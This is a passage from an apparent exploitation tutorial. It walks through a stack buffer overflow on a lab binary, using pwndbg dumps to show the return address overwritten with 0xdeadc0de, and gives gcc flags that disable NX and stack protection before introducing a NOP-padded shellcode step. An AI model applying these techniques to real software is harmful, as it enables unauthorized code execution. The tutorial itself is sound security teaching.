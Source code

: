 We've breaked after the read which should get us all the stuff from the script. Now, let's inspect a bit the stack memory:

```bash
# Terminal 2
pwndbg> stack 100
00:0000│ esp  0xff8094d0 —▸ 0x80ef200 (_IO_2_1_stdout_) ◂— 0xfbad2887
01:0004│      0xff8094d4 —▸ 0x80bee20 ◂— push   esp
02:0008│ ecx  0xff8094d8 ◂— 0x41414141 ('AAAA')
... ↓
27:009c│      0xff80956c ◂— 0xdeadc0de
28:00a0│      0xff809570 ◂— 0x0
... ↓
```
Analyzing the registers:
```bash
pwndbg> regs
*EAX  0x3e8
*EBX  0x80481b0 (_init) ◂— push   ebx
 ECX  0xff8094d8 ◂— 0x41414141 ('AAAA')
 EDX  0x400
 EDI  0x4e
 ESI  0x80ef00c (_GLOBAL_OFFSET_TABLE_+12) —▸ 0x8069d70 (__strcpy_sse2) ◂— mov    edx, dword ptr [esp + 4]
 EBP  0xff809568 ◂— 0x41414141 ('AAAA')
*ESP  0xff8094d0 —▸ 0x80ef200 (_IO_2_1_stdout_) ◂— 0xfbad2887
*EIP  0x80488d5 (vuln+57) ◂— sub    esp, 8
```

We can see that EBP points out to `0xff809568`, which means that the return `ret` address points to `0xff80956c`. According to the memory dump above, it contains `0xdeadc0de` which we introduced as desired.

Thereby, we took control of the EIP.

#### Trying to execute a shellcode
Let's compile the program without NX protection:
```bash
gcc -m32 -g -fno-stack-protector -z execstack -static -o ./build/1_nx ./src/1_static.c
```
Which we can verify as:
```bash
root@9d3c62865471:~/tutorial# checksec build/1_static
[*] '/root/tutorial/build/1_static'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
root@9d3c62865471:~/tutorial# checksec build/1_staticnx
[*] '/root/tutorial/build/1_staticnx'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
Now, we simply overflow it making sure we append and prepend Noops to the shellcode.
We use following script (`1_skeleton_shellcode.py`):
